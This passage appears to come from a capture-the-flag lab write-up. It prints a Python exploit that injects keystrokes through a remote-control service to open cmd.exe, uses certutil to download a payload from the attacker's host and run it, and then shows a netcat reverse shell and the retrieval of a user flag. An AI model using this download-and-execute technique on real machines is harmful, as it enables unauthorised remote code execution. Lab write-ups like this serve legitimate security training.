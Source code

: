     
    
    # Main Execution
    def main():
        staging_dir = "C:\\programdata\\"
        target.connect((rhost,port))
        sleep(0.5)
        print("[+] Connecting to target...")
        target.sendto(open,(rhost,port))     # Initialize Connection to Unified
        sleep(0.02)
        target.sendto(open_fin,(rhost,port))     # Finish Initializing Connection
        print("[+] Popping Start Menu")
        sleep(0.02)
        SendWin()
        sleep(0.3)
        print("[+] Opening CMD")
        SendString("cmd.exe", rhost)
        sleep(0.3)
        SendReturn()
        sleep(0.3)
        print("[+] *Super Fast Hacker Typing*")
        SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " " + staging_dir + payload, rhost) # Retrieve HTTP hosted payload
        sleep(0.3)
        print("[+] Downloading Payload")
        SendReturn()
        sleep(3)
        SendString(staging_dir + payload, rhost) # Execute Payload
        sleep(0.3)
        SendReturn()
        print("[+] Done! Check listener?")
        target.close()
    

When I run this, it works:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 57582
    Microsoft Windows [Version 10.0.19043.1266]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Users\clara>
    

I’ll run `powershell` to switch shells, and grab `user.txt`:

    
    
    PS C:\Users\clara\Desktop> cat user.txt
    b0a89347************************
    

## Shell as development
